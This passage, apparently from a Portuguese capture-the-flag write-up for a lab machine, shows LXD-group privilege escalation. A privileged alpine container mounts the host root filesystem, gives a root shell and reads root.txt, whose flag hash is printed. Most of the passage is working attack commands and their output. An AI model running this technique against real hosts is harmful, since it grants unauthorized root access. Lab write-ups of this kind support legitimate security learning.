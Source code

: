 Depois que montei, usei o comando abaixo para iniciar ele. 


```bash
ash@tabby:~$ lxc init alpine privesc -c security.privileged=true
lxc init alpine privesc -c security.privileged=true
Creating privesc
ash@tabby:~$ lxc list
lxc list
+---------+---------+------+------+-----------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------+---------+------+------+-----------+-----------+
| privesc | STOPPED |      |      | CONTAINER | 0         |
+---------+---------+------+------+-----------+-----------+
```

Ele foi criaado, porém está stopado.  Fala na documentação que precisa configurar ele no mnt
ai eu fiz isso dessa forma:

```bash
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
```
(consta na documentação também)
ele sempre cria o container com o nome 'privesc'

```bash
    ash@tabby:~$ lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to privesc
```

Ele foi montado com sucesso, agora só dar o start no container.


```bash
ash@tabby:~$ lxc start privesc
lxc start privesc
ash@tabby:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /mnt/root
cd /mnt/root
# ls
ls
bin    dev   lib    libx32    mnt   root  snap      sys  var
boot   etc   lib32  lost+found    opt   run   srv       tmp
cdrom  home  lib64  media    proc  sbin  swap.img  usr
# cd root
cd root
# ls
ls
root.txt  snap
# cat root.txt    
cat root.txt
653d95c2eb0f63629eeb048ea1d0a3b5
# 
```





